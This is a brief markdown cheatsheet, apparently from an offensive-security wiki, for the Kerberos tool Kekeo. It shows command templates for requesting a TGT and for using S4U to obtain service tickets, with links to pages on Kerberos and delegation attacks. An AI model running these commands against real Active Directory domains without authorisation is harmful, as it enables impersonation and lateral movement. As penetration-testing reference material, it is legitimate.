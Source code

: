 # Kekeo Cheatsheet
[Kekeo](https://github.com/gentilkiwi/kekeo) is tool for [[Attacking-Kerberos]] and with [[Mimikatz-Cheatsheet]] performing [[AD-Kerberos-Delegation-Exploitation]]. For details about Kerberos Authenication see [[Active-Directory-Kerberos-Authenication-Defined]]


Generate TGT tickets 
```shell
# kekeo.exe
tgt::ask /user:<user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
#
tgs::s4u /tgt:'tgt_filename' /user:<current_username_not_svc> /service:<service>
# Successful output will have:
> Ticket in file 'TGS_...'
```


## References
[Github Repo](https://github.com/gentilkiwi/kekeo)